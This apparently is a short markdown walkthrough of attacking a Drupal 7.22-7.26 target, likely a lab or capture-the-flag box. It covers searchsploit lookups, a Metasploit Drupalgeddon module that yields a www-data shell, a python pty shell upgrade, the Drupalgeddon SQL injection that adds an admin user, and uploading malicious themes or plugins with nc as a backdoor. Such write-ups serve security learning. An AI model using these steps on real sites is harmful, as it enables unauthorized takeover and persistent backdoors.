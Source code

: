 >> ``` 
>> searchsploit xxx		#xxx can replace with the software,versions
>> ```
>2)themes and plugins
>>there are many careless developer use unsafe codes.
>>
>>and the theme and plugins will get high level privilege when the web server runs.
>>
>>so if you can edit with them or upload them you can use evil php code/js code/.. to privilege you (get root) and get shell.
>3)vulnerable setting file or profiles
>>if any high privilege setting file is avaiable to anonymous users/low privilege users 
>>
>>it will make more unsafe factors in your sys,make more damage and cause unpredictable results.
>>  

so with guides, we can see the version is 7.22-7.26

##getshell

if we see this versio in metasploit or searchsploit.

we can got the exp of it

Drupageddon! is!
```
$msfconsole
$search drupal
$use 4		#(may other number)
$info
$#here give our machine infomation the exp need...
run		#just run it

```
then we can got www-data//shell

get shell!

but the interface is really bad

>tips:
>using python command
>```
>python -c import pty;pty.spawn("/bin/bash")
>```
get shell
---

also it got SQLinjections too. searchsploit can help you and create an admin userof you.

```
$ searchsploit drupal 7
 ------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                       |  Path (/usr/share/exploitdb/)
 ------------------------------------------------------------------------------------------------------------------

Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)    | exploits/php/webapps/34992.py
```
than looking my guide two,use upload plugins or themes in drupal to install shells and nc to create the backdoor.
